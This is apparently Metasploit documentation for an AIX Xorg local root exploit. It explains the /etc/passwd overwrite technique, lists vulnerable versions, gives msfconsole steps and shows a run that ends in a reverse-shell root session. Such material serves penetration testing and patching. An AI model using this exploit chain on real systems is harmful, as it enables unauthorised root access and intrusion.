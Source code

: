 ## Description

This module is a port of the OpenBSD X11 Xorg exploit to run on AIX. A permission check flaw exists for -modulepath and -logfile options when starting Xorg. This allows unprivileged users that can start the server the ability to elevate privileges and run arbitrary code under root privileges. This module has been tested with AIX 7.1 and 7.2, and should also work with 6.1. Due to permission restrictions of the crontab in AIX, this module does not use cron, and instead overwrites /etc/passwd in order to create a new user with root privileges. All currently logged in users need to be included when /etc/passwd is overwritten, else AIX will throw 'Cannot get "LOGNAME" variable' when attempting to change user. The Xorg '-fp' parameter used in the OpenBSD exploit does not work on AIX, and is replaced by '-config', in conjunction with ANSI-C quotes to inject newlines when overwriting /etc/passwd.

## Vulnerable Application

This module has been tested successfully on:

* AIX 7.1 with Xorg 7.2.3.0
* AIX 7.2 with Xorg 7.2.3.0

This table lists all vulnerable Xorg versions:

| Lower Level | Upper Level |
|-------------|-------------|
| 6.1.9.0     | 6.1.9.100   |
| 7.1.4.0     | 7.1.4.30    |
| 7.1.5.0     | 7.1.5.31    |
| 7.2.0.0     | 7.2.0.1     |
| 7.2.1.0     | 7.2.1.0     |
| 7.2.2.0     | 7.2.2.0     |
| 7.2.3.0     | 7.2.3.15    |

## Verification Steps

1. `msfconsole`
2. Get a session
3. `use exploit/aix/local/xorg_x11_server`
4. `set session <session>`
5. `set LHOST <lhost>`
6. `set LPORT <lport>`
7. `set writabledir <writabledir>`
8. `run`

## Options

### SESSION

Which session to use, which can be viewed with `sessions`

### WritableDir

A writable directory file system path. (default: `/tmp`)

## Scenarios
https://vimeo.com/372193921

```
msf exploit(aix/local/xorg_x11_server) > set session 1
session => 1
msf exploit(aix/local/xorg_x11_server) > set writabledir /tmp
writabledir => /tmp
msf exploit(aix/local/xorg_x11_server) > run

[*] Started reverse TCP handler on 0.0.0.0:8888
[*] Xorg version is 7.2.3.0
[*] Retrieving currently logged in users
[*] Writing to /tmp/wow.ksh
[*] Backing up /etc/passwd to /tmp/passwd.backup
[*] Executing /tmp/wow.ksh
[*] Checking if we are root
[+] Got root!
[*] Writing to /tmp/wowee.ksh
[*] Executing shell payload
[*] Restoring original /etc/passwd
[*] Command shell session 2 opened (172.17.0.2:8888 -> 172.17.0.1:32948) at 2019-02-11 15:42:56 +0000
[+] Deleted /tmp/wow.ksh
[+] Deleted /tmp/passwd.backup
[+] Deleted /tmp/wowee.ksh

id
uid=0(root) gid=0(system)

```
